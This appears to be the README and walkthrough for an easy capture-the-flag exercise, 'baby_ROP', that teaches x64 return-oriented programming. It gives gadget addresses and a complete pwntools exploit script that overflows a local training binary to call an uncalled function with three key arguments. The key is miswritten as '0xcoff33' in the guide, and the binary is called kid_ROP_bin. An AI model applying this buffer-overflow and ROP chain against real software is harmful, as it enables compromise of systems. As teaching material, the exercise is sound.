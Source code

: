 # Challenge Name
baby_ROP

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
Let's find out the secrets to pwn...But I need 3 keys ;-;

## Difficulty:
easy

## Guide
Looking at the code, we have to use ret2win again for the uncalled `treasureChest` function. However, we have to fulfil the function arguments in order to call it.
`secretKey` function is also a red herring.
1. key1 = 0x13371337
2. key2 = 0xdeadbeef
3. key3 = 0xcoff33

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use **3** arguments, so we need to use `rdi`, `rsi` & `rdx` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `treasureChest` function
3. Gadgets required for the function arguments

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `jaaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

#### To find `treasureChest` function address:
```sh
$> objdump -d kid_ROP_bin | grep treasureChest
0000000000400727 <treasureChest>:
...
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep "pop rdi"
0x00000000004008c3 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep "pop rsi"
0x00000000004008c1 : pop rsi ; pop r15 ; ret
```

For `rdx` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep ": pop rdx"
0x00000000004007f7 : pop rdx ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `treasureChest` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + key1 (0x13371337)
3. pop rsi address + key2 (0xdeadbeef) + redundent value (0)
4. pop rdx address + key3 (0xcoff33)
5. return address of `treasureChest` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = process("./kid_ROP_bin")
context.binary = "./kid_ROP_bin"

# ROP gadgets
pop_rdi = 0x4008c3 # pop rdi
pop_rsi = 0x4008c1 # pop rsi, pop r15
pop_rdx = 0x4007f7 # pop rdx 

# address of treasureChest 
win = 0x400727

# offer
payload = b'A' * 72

# ---------------------- ROP chain ---------------------------
# pop rdi + key1
# pop rsi + key2 + 0 (no need for r15)
# pop rdx
# address of treasureChest
payload += p64(pop_rdi) + p64(0x13371337)
payload += p64(pop_rsi) + p64(0xdeadbeef) + p64(0)
payload += p64(pop_rdx) + p64(0xc0ff33)
payload += p64(win)

# send and receive output
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. How many arguements do you need? Which registers do you need?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- chall.c
- chall

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html


## Flag
TBD